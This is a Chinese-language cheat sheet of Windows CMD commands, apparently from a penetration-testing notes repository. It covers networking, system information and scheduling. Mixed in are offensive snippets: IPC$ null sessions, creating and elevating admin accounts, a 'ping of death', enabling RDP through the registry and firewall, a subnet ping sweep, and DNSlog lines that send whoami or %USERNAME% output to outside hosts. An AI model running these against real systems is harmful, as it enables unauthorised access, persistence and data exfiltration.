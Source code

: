 # CMD 命令用法记录

---

# 网络常用
**ipconfig**
```cmd
ipconfig /all 显示完整配置信息
ipconfig /release 释放指定适配器的 IPv4 地址
ipconfig /release6 释放指定适配器的 IPv6 地址
ipconfig /renew 更新指定适配器的 IPv4 地址
ipconfig /renew6 更新指定适配器的 IPv6 地址
ipconfig /flushdns 清除 DNS 解析程序缓存
```

**netstat**
```cmd
netstat -a 查看开启了哪些端口，常用 netstat -an
netstat -n 查看端口的网络连接情况，常用 netstat -an
netstat -v 查看正在进行的工作
netstat -p 协议名 例:netstat -p tcq/ip 查看某协议使用情况
netstat -s 查看正在使用的所有协议使用情况
netstat -A ip 对方136到139其中一个端口开了的话，就可查看对方最近登陆的用户名

netstat -bn 查看每个程序的连接
```

**ping**
```cmd
ping ip(或域名) 向对方主机发送默认大小为32字节的数据
ping -l[空格]数据包大小 ip
ping -n 发送数据次数 ip
ping -t ip 一直 ping。
ping -t -l 65500 ip 死亡之 ping(发送大于64K的文件并一直 ping 就成了死亡之 ping)
```

**tracert**
```cmd
-d                 不将地址解析成主机名。
-h maximum_hops    搜索目标的最大跃点数。
-j host-list       与主机列表一起的松散源路由(仅适用于 IPv4)。
-w timeout         等待每个回复的超时时间(以毫秒为单位)。
-R                 跟踪往返行程路径(仅适用于 IPv6)。
-S srcaddr         要使用的源地址(仅适用于 IPv6)。
-4                 强制使用 IPv4。
-6                 强制使用 IPv6。
```

**route**
```cmd
route print
route print 192.*
route add 0.0.0.0 mask 0.0.0.0 192.168.6.1 增加网关
route delete 0.0.0.0 mask 0.0.0.0 192.168.6.1 删除网关
route change 16.21.0.0 mask 255.255.0.0 16.28.0.25 将访问16.21.0.0 段的网关改为 0.25
```

**arp**
```cmd
arp -a      查看全部
arp -d ip   删除
```

**nslookup**
```cmd
nslookup domain [dns-server]            查询域名A记录
nslookup -qt=type domain [dns-server]   查询其他记录
    A 地址记录
    AAAA 地址记录
    AFSDB Andrew文件系统数据库服务器记录
    ATMA ATM地址记录
    CNAME 别名记录
    HINFO 硬件配置记录，包括 CPU、操作系统信息
    ISDN 域名对应的 ISDN 号码
    MB 存放指定邮箱的服务器
    MG 邮件组记录
    MINFO 邮件组和邮箱的信息记录
    MR 改名的邮箱记录
    MX 邮件服务器记录
    NS 名字服务器记录
    PTR 反向记录
    RP 负责人记录
    RT 路由穿透记录
    SRV TCP服务器信息记录
    TXT 域名对应的文本信息
    X25 域名对应的X.25地址记录
```

**net**
```cmd
net use ipipc$ " " /user:" " 建立 IPC 空链接
net use ipipc$ "密码" /user:"用户名" 建立 IPC 非空链接
net use h: ipc$ "密码" /user:"用户名" 直接登陆后映射对方 C: 到本地为 H:
net use h: ipc$ 登陆后映射对方 C: 到本地为 H:
net use ipipc$ /del 删除 IPC 链接
net use h: /del 删除映射对方到本地的为 H: 的映射
net user 用户名　密码　/add 建立用户
net user guest /active:yes 激活 guest 用户
net user 查看有哪些用户
net user 帐户名 查看帐户的属性
net localgroup administrators 用户名 /add 把"用户"添加到管理员中使其具有管理员权限
net start 查看开启了哪些服务
net start 服务名　开启服务；(如:net start telnet， net start schedule)
net stop 服务名 停止某服务
net time 目标ip 查看对方时间
net time 目标ip /set 设置本地计算机时间与"目标IP"主机的时间同步，加上参数 /yes 可取消确认
net view 查看本地局域网内开启了哪些共享
net view ip 查看对方局域网内开启了哪些共享
net config 显示系统网络设置
net logoff 断开连接的共享
net pause 服务名 暂停某服务
net send ip "文本信息" 向对方发信息
net ver 局域网内正在使用的网络连接类型和信息
net share 查看本地开启的共享
net share ipc$ 开启 ipc$ 共享
net share ipc$ /del 删除 ipc$ 共享
net share c$ /del 删除 C: 共享
net user guest 12345 用 guest 用户登陆后用将密码改为 12345
net password 密码 更改系统登陆密码
```

---

# 系统信息
`ver` windows版本

`msinfo32`  系统信息面板

`services.msc` 服务面板

`gpedit.msc` 组策略管理器

`regedit` 注册表

`finger username @host` 查看最近有哪些用户登陆

**slmgr.vbs**
```cmd
slmgr.vbs -dlv :显示详细的许可证信息
slmgr.vbs -dli :显示许可证信息
slmgr.vbs -xpr :当前许可证截止日期
slmgr.vbs -dti :显示安装ID 以进行脱机激
slmgr.vbs -ipk :(Product Key)安装产品密钥
slmgr.vbs -ato :激活Windows
slmgr.vbs -cpky :从注册表中清除产品密钥(防止泄露引起的攻击)
slmgr.vbs -ilc :(License file)安装许可证
slmgr.vbs -upk :卸载产品密钥
slmgr.vbs -skms :(name[ort] )批量授权
```

---

# 常用

**shutdown**
```cmd
shutdown -s -t 60 60秒后关机
shutdown -s -t 3600 1小时后关机
tsshutdn 60秒后关机
shutdown -s -f 强制关机
shutdown -s -t 时间
shutdown -a 取消 关机命令
```

**taskkill**
```cmd
taskkill /im 进程名称
taskkill /pid [进程码] -t(结束该进程) -f（强制结束该进程以及所有子进程）
```

**at**
```cmd
at id号 开启已注册的某个计划任务
at /delete 停止所有计划任务，用参数 /yes 则不需要确认就直接停止
at id号 /delete 停止某个已注册的计划任务
at 查看所有的计划任务
at ip time 程序名(或一个命令) /r 在某时间运行对方某程序并重新启动计算机
```

**[Schtasks.exe](https://docs.microsoft.com/en-us/windows/win32/taskschd/schtasks)**
```markdown
创建计划任务 "gametime"，在每月的第一个星期天运行“空当接龙”。

SCHTASKS /Create /SC MONTHLY /MO first /D SUN /TN gametime /TR c:\windows\system32\freecell

- /SC   schedule     指定计划频率。有效计划任务:  MINUTE、 HOURLY、DAILY、WEEKLY、MONTHLY, ONCE, ONSTART, ONLOGON, ONIDLE, ONEVENT.
- /MO   modifier     改进计划类型以允许更好地控制计划重复周期。有效值列于下面“修改者”部分中。
- /D    days         指定该周内运行任务的日期。有效值:MON、TUE、WED、THU、FRI、SAT、SUN和对 MONTHLY 计划的 1 - 31(某月中的日期)。通配符“*”指定所有日期。
- /TN   taskname     以路径\名称形式指定对此计划任务进行唯一标识的字符串。
- /TR   taskrun      指定在这个计划时间运行的程序的路径和文件名。例如: C:\windows\system32\calc.exe

```



**CMD开启rdp：**
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

**通过防火墙**
键入以下命令以通过Windows防火墙启用远程桌面，然后按Enter：
```
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```

**dnslog不只是可以ping，你还可以在里面带数据**

比如linux,
```
ping `whoami`.soeowh.dnslog.cn
```


windows下就是
```
ping %USERNAME%.xxxxx.ceye.io
```
这么搞，在真正无回显的情况下判断系统版本

CMD 扫描主机
```bash
# 探测一个C网段有多少台主机

for /L %I in (1,1,254) DO @ping -w 1 -n 1 192.168.1.%I | findstr "TTL="
```







